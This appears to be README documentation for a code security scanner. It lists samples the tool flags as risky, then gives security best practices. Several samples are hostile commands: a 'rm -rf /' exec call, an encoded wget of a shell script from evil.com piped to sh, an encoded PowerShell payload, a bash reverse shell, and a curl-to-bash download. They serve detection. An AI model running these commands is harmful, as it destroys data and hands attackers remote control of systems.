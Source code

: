 ### Example 2: XOR obfuscation detection
```javascript
// This will be detected as MEDIUM RISK
const key = 0x42;
const encrypted = data ^ key;
```

### Example 3: Base64 detection
```javascript
// This will be detected as MEDIUM RISK
const decoded = atob("SGVsbG8gV29ybGQ=");
```

### Example 4: Process execution detection
```javascript
// This will be detected as HIGH RISK
const { exec } = require('child_process');
exec('rm -rf /', (error, stdout, stderr) => {
    console.log(stdout);
});
```

### Example 5: Sensitive information detection
```javascript
// This will be detected as HIGH RISK
const apiKey = "sk-1234567890abcdef";
const password = "mypassword123";
```

### Example 6: Terminal malicious command detection
```bash
# This will be detected as HIGH RISK - Base64 encoded command
echo "d2dldCBodHRwOi8vZXZpbC5jb20vc2hlbGwuc2ggfCBzaA==" | base64 -d | bash

# This will be detected as HIGH RISK - PowerShell encoded command
powershell -enc "JABwYXlsb2FkID0gW0NvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCJpdm9yL2Z1anNvL2Z1anNvIik7IEludm9rZS1FeHByZXNzaW9uICRwYXlsb2Fk"

# This will be detected as HIGH RISK - Reverse shell
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

# This will be detected as MEDIUM RISK - File download and execution
curl -s http://malicious.com/payload.sh | bash
```

## Security Best Practices

1. **Don't use eval()**: Never use eval() in production code
2. **Use JSON.parse()**: Use JSON.parse() instead of eval() for JSON data
3. **Validate input**: Always validate and sanitize user input
4. **Use CSP**: Implement Content Security Policy headers
5. **Code review**: Conduct regular code reviews for security issues
6. **Static analysis**: Use automated scanning tools like Sec4Dev
7. **Principle of least privilege**: Only grant necessary permissions
8. **Regular updates**: Keep dependencies and tools updated
